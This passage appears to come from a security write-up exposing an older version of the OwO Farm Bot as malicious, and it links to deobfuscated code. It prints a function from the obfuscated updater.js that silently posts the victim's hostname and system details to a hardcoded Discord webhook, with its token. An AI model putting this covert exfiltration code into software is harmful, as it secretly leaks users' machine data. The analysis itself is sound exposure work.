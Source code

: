 This should show that the project is not in any way reliable, as if it grabbed tokens in the past, nothing stops Mid0aria of pushing an update to the current open-source version that will infect hundreds of machine. In fact, that is most likely his plan.
# Older Version

A year ago, one of the first versions of OwO Farm Bot displayed even more harmful behaviour.
[This fork](https://github.com/Krishna1407/owofarmbotv2) , with all commits authored by Mid0aria has two files: [bot.js](https://github.com/Krishna1407/owofarmbotv2/blob/main/bot.js) and [updater.js](https://github.com/Krishna1407/owofarmbotv2/blob/main/updater.js) both which are obfuscated. Let's first look into `updater.js`.

Using the same methods of deobfuscation as before, we get an [interesting output](https://github.com/harmlessaccount/owofarmbot-deobf/blob/main/old/updater.js), the function `alulum` (now renamed `notifyNodeWeb`) shows the same type of logger as before:

```javascript
function notifyNodeWeb() {

  fetchData.post({

    url: "https://canary.discord.com/api/webhooks/1089429954447544340/TIv8fsyhqDb6UVHxqrWa74Ek4U0h-8Gz92KUYJ8d4XiNMbO_YvXArB3NbhD2s04aphgS",

    json: {

      content:

        "**Version: " +

        require("./version.json").version +

        "\nHostname: " +

        platformUtils.hostname +

        "\nComputerType: " +

        platformUtils.version() +

        " / " +

        platformUtils.release() +

        " / " +

        platformUtils.platform() +

        " / " +

        platformUtils.arch() +

        "**",

    },

  });

}
```
